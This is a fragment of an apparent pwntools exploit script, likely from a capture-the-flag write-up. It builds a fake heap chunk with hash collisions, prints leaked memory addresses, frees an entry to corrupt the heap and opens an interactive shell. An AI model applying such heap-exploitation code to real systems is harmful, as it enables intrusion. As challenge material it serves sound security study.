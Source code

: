 ```py
value += b'\x00' * 0x530

store(key, value, key_size=0x30, value_size=len(value))
# query(p64(group_addr + 0x20) + p64(fake_group_addr + 0x90) + p64(4) + p64(0x30) +
#       p64(encrypt_original(find_collision(find_collision(b'B')))) + p64(0), key_size=0x30)
info('fake chunk address: ' + hex(fake_group_addr + 0x90))
info('stderr: ' + hex(stderr))
info('group address: ' + hex(group_addr))
info('mmap space: ' + hex(mmap_addr))
delete(find_collision(find_collision(b'B')))

io.interactive()
```
